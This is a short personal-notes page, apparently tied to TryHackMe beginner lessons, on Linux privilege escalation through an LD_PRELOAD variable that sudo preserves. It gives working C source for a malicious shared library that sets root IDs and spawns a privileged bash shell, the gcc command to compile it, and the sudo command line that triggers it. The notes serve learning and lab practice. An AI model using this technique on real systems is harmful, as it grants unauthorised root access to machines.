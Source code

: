 # Exploiting LD_PRELOAD

* **author**:: Nathan Acks  
* **date**:: 2021-10-31

If LD_PRELOAD is preserved by sudo, then it's possible to use a malicious dynamic library to gain root access - just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. Preserved environment variables are listed by `sudo -l`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Enumerate "sudo" Access](enumerate-sudo-access.md)
